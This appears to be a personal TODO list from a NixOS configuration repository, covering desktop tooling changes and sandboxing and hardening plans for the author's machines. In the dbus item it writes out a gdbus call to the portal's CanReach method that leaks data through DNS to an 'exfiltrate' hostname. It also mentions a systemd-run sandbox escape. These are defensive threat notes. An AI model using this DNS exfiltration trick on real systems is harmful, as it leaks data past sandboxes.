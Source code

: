     - for a nested sandbox, its vfs could be queried from the root ns at `/run/bunpen/$PID1/run/bunpen/$PID2`
- sane-deadlines: show day of the week for upcoming items
- curlftpfs: replace with something better
  - safer (rust? actively maintained? sandboxable?)
  - handles spaces/symbols in filenames
  - has better multi-stream perf (e.g. `sane-sync-music` should be able to copy N items in parallel)
- firefox: open *all* links (http, https, ...) with system handler
  - removes the need for open-in-mpv, firefox-xdg-open, etc.
  - matrix room links *just work*.
  - `network.protocol-handler.external.https = true` in about:config *seems* to do this,
    but breaks some webpages (e.g. Pleroma)
- associate http(s)://*.pdf with my pdf handler
  - can't do that because lots of applications don't handle URIs
  - could workaround using a wrapper that downloads the file and then passes it to the program
- geary: replace with envelope
  - likely requires updating envelope to a more recent version (for multi-accounting), and therefore updating libadwaita...

### security/resilience
- enable `snapper` btrfs snapshots (`services.snapper`)
- /mnt/desko/home, etc, shouldn't include secrets (~/private)
  - 95% of its use is for remote media access and stuff which isn't in VCS (~/records)
- harden systemd services:
  - servo: `coturn.service`
  - servo: `postgresql.service`
  - servo: `postfix.service`
  - servo: `prosody.service`
  - servo: `slskd.service`
  - desko: `usbmuxd.service`
  - servo: `backup-torrents.service`
  - servo: `dedupe-media.service`
  - remove SGID /run/wrappers/bin/sendmail, and just add senders to `postdrop` group
- port all sane.programs to be sandboxed
  - sandbox `nix`
  - enforce that all `environment.packages` has a sandbox profile (or explicitly opts out)
  - lock down dbus calls within the sandbox
    - <https://github.com/flatpak/xdg-dbus-proxy>
    - stuff on dbus presents too much surface area
      - ~~for example anyone can `systemd-run --user ...` to potentially escape a sandbox~~
      - for example, xdg-desktop-portal allows anyone to make arbitrary DNS requests
        - e.g. `gdbus call --session --timeout 10 --dest org.freedesktop.portal.Desktop --object-path /org/freedesktop/portal/desktop --method org.freedesktop.portal.NetworkMonitor.CanReach 'data1.exfiltrate.uninsane.org' 80`
- make gnome-keyring-daemon less monolithic
  - no reason every application with _a_ secret needs to see _all_ secrets
  - check out oo7-daemon?
  - also unix-pass based provider: <https://github.com/mdellweg/pass_secret_service>
- make dconf stuff less monolithic
  - i.e. per-app dconf profiles for those which need it. possible static config.
  - flatpak/spectrum has some stuff to proxy dconf per-app
